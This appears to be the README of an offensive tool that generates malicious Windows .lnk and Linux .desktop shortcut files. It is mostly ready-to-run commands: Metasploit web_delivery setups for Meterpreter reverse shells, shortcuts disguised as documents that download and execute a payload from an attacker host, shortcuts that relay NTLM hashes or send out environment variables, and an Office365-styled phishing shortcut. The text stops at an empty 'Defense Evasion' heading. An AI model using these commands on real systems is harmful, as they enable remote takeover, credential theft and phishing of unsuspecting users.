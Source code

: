 Generate the desktop entry then automatically hosting a python payload (`.py`) using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 0; set payload python/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; exploit"

$ shortcutgen -p desktop -n "Document File" -c "python" -a "\"<payload>\"" --icon "libreoffice-writer" --workingdirectory "/tmp/" -w "false" -o payload.desktop
```

Generate the desktop entry then automatically hosting an ELF payload using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 7; set payload linux/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; exploit"

$ shortcutgen -p desktop -n "Document File" -c "wget" -a "wget -qO payload --no-check-certificate http://192.168.1.4/payload; chmod +x payload; ./payload& disown" --icon "libreoffice-writer" --workingdirectory "/tmp/" -w "false" -o payload.desktop
```

### 0x01 - Relay NTLM Hash

Specify the attacker's IP address.

```
$ shortcutgen -p lnk -i "192.168.1.4" -s "Documents" -n "document.docx" -o payload.lnk
```

Even a rouge hostname can trigger the DNS.

```
$ shortcutgen -p lnk -i "fileserver" -s "Documents" -n "document.docx" -o payload.lnk
```

To exfiltrate environment variables.

```
$ shortcutgen -p lnk -i "fileserver" -e "COMPUTERNAME,USERNAME,NUMBER_OF_PROCESSORS" -s "Documents" -n "document.docx" -w "minimized" -o payload.lnk
```

### 0x02 - Phishing

You can send a targeted phishing campaign using chromium-based web browsers in application mode from [mrd0x's blog post](https://mrd0x.com/phishing-with-chromium-application-mode/).

```
$ shortcutgen -p lnk -c "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" -a "--app=http://192.168.1.4" --icon "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,0" -o Office365.lnk
```

### 0x03 - Defense Evasion

